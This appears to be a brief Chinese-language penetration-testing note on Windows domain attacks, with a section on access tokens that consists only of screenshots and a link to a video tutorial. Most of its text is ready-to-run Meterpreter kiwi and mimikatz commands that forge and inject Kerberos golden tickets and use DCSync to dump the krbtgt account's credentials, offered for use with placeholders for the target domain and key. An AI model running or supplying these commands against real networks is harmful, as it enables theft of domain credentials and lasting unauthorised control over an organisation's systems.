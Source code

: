 #### 利用

msfwiki

![image-20201011144256618](https://raw.githubusercontent.com/Explorersss/photo/master/20201011144256.png)





```
#msfwiki
load kiwi
golden_ticket_create -d payloads.online -k <ker> -s <SSID> -u <USER> -t /path/to/save#创建票据
kerberos_ticket_use /tmp/krbtgt.ticket# 注入票据
kerberos_ticket_list # 列出票据


```



mimikatz:

```
mimikatz "kerberos::golden /domain:<域名> /sid ... /rc4 ... /user ... /ptt"
mimikatz log "lsadump::dcsync /domain:scanf.com /user:krbtgt"
```



## Windows Access Token

![image-20201011154101696](https://raw.githubusercontent.com/Explorersss/photo/master/20201011154101.png)

![image-20201011154205413](https://raw.githubusercontent.com/Explorersss/photo/master/20201011154205.png)

![image-20201011154317801](https://raw.githubusercontent.com/Explorersss/photo/master/20201011154317.png)

![image-20201011154325811](https://raw.githubusercontent.com/Explorersss/photo/master/20201011154325.png)



![image-20201011154404049](https://raw.githubusercontent.com/Explorersss/photo/master/20201011154404.png)





## 教程

https://www.bilibili.com/video/BV1S4411q7Cw

